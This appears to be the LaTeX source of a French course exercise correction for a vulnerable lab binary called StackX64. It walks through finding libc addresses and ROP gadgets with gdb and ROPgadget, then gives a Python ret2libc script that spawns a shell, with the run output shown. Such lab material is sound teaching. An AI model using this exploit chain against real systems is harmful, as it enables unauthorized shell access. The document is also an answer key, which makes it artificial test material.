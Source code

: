 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\newtheorem{correction}{Correction}
\theoremstyle{definition}
\newtheorem{exercice}{Exercice}
\begin{document}
\begin{exercice}[Projet StackX64]
\begin{correction}
\textbf{4b)} Adresse de \texttt{system()} :
\begin{lstlisting}[style=GDBStyle]
(gdb) break main
(gdb) run
(gdb) print system
$1 = {int (const char *)} 0x7ffff7e17290 <__libc_system>
\end{lstlisting}

\textbf{4c)} Trouver \texttt{"/bin/sh"} :
\begin{lstlisting}[style=GDBStyle]
$ strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"
  1b3d88 /bin/sh
(gdb) info proc mappings
          Start Addr           End Addr  ...  objfile
      0x7ffff7dc0000     0x7ffff7fe8000  ...  libc.so.6
\end{lstlisting}
Adresse de \texttt{"/bin/sh"} = \texttt{0x7ffff7dc0000 + 0x1b3d88} = \texttt{0x7ffff7f73d88}

\textbf{4d)} Gadget \texttt{pop rdi; ret} :
\begin{lstlisting}[style=GDBStyle]
$ ROPgadget --binary stackx64 | grep "pop rdi"
0x0000000000401283 : pop rdi ; ret
\end{lstlisting}

\textbf{4e)} Gadget \texttt{ret} (pour l'alignement) :
\begin{lstlisting}[style=GDBStyle]
$ ROPgadget --binary stackx64 | grep ": ret$"
0x000000000040101a : ret
\end{lstlisting}

\textbf{4f)} Script Python3 pour l'exploit ret2libc :
\begin{lstlisting}[style=CStyle,language=Python,title=exploit\_phase4.py]
import sys

offset = 72

# Addresses (adjust based on your system)
ret_gadget     = 0x40101a           # ret (alignment)
pop_rdi_ret    = 0x401283           # pop rdi; ret
bin_sh_addr    = 0x7ffff7f73d88     # "/bin/sh" in libc
system_addr    = 0x7ffff7e17290     # system() in libc

def p64(addr):
    return addr.to_bytes(8, byteorder='little')

payload  = b"A" * offset
payload += p64(ret_gadget)       # align stack to 16 bytes
payload += p64(pop_rdi_ret)      # pop rdi; ret
payload += p64(bin_sh_addr)      # rdi = "/bin/sh"
payload += p64(system_addr)      # call system("/bin/sh")

sys.stdout.buffer.write(payload)
\end{lstlisting}

Exécution :
\begin{lstlisting}[style=GDBStyle]
$ (python3 exploit_phase4.py ; cat) | ./stackx64
=== StackX64 - Vulnerable Program ===
...
whoami
etudiant
\end{lstlisting}


\end{correction}
\end{exercice}
\end{document}
